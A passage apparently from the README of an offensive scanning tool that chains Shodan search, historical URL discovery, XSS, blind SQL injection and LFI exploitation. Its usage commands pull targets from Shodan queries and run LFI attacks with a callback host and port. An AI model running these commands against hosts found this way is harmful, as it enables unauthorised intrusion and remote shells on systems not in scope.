 ### **Quick Start**
```bash
# Test 5 random targets (default)
./random

# Test 10 random targets for LFI
./random 10 lfi

# Test specific domain
python3 liffy_ultimate.py --domain example.com --test-mode all
```

### **Shodan Integration**
```bash
# Search for Apache servers
python3 liffy_ultimate.py --shodan-query "apache" --test-mode lfi --lhost 192.168.1.100 --lport 4444

# Search with filters
python3 liffy_ultimate.py --shodan-query "nginx" --country US --ports 80,443 --test-mode all
```

### **Advanced Testing**
```bash
# XSS testing only
python3 liffy_ultimate.py --domain example.com --test-mode xss

# SQL injection testing only
python3 liffy_ultimate.py --domain example.com --test-mode sqli

# Custom LFI technique
python3 liffy_ultimate.py --domain example.com --test-mode lfi --lfi-technique data --lhost 192.168.1.100 --lport 4444
```

## 🛠️ **Tools Integrated**

1. **sqry** - Shodan search (no API key required)
2. **gauplus** - Historical URL discovery
3. **airixss** - XSS vulnerability testing
4. **jeeves** - Time-based blind SQL injection testing
5. **Liffy Enhanced** - Advanced LFI exploitation

## 🎯 **Target Discovery Methods**

1. **Random from Scope** - `./random` pulls from `~/targets/scope`
2. **Shodan Search** - `sqry -q "query"` for specific technologies
3. **Historical URLs** - `gauplus` for Wayback Machine, Common Crawl, OTX
4. **Custom Domains** - Direct domain testing
5. **Subdomain Discovery** - Automatic subdomain enumeration
